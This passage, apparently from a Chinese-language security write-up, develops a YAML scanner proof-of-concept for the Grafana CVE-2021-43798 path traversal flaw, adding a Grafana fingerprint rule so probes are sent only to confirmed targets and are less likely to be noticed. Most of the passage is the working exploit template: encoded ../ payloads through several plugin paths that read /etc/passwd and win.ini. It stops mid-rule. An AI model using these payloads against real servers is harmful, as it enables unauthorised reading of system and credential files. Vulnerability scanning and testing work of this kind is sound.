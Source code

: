 就目前的POC来看，基本已经覆盖了绝大多数的情况，这个时候我们可以考虑一下发包的问题。因为我们的POC目前是对每一个目标都会发，甚至目录上下文发生了改变也会发，所有如果该POC加入到扫描阵列中的时候，在对不是grafana的目标的每一个不同的目录上下文都会发送80个数据包，而这些数据包全是无用的，这无疑会拖慢扫描速度，同时测试目标也会收到很多重复探测的数据包，在对抗中将很容易会被发现。所以接下来我们需要加一个探测规则，在确认了是grafana后，再去探测漏洞，从而减少无效包的发送。
```yaml
name: poc-yaml-grafana-cve-2021-43798-unauth-fileread-test-4
manual: true
transport: http
rules:
    detect:
        request:
            cache: false
            method: GET
            path: /
            follow_redirects: true
        expression: |
            response.status == 200 && "window.grafana[b|B]oot[d|D]ata\\s*=\\s*{".bmatches(response.body) || response.body.bcontains(b"Sometimes restarting grafana-server can help")
    r0:
        request:
            cache: true
            method: GET
            path: /public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r1:
        request:
            cache: true
            method: GET
            path: /public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fc:/windows/win.ini
        expression: |
            response.status == 200 && response.body.bcontains(b"for 16-bit app support")
    r2:
        request:
            cache: true
            method: GET
            path: /public/plugins/annolist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r3:
        request:
            cache: true
            method: GET
            path: /public/plugins/annolist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fc:/windows/win.ini
        expression: |
            response.status == 200 && response.body.bcontains(b"for 16-bit app support")
    r4:
        request:
            cache: true
            method: GET
            path: /public/plugins/grafana-azure-monitor-datasource/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
        expression: |
            response.status == 200 && "root:.*?:[0-9]*:[0-9]*:".bmatches(response.body)
    r5:
        request:
            cache: true
            method: GET
            path: /public/plugins/grafana-azure-monitor-datasource/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fc:/windows/win.ini
        expression: |
            response.status == 200 && response.body.bcontains(b"for 16-bit app support")
    r6:
```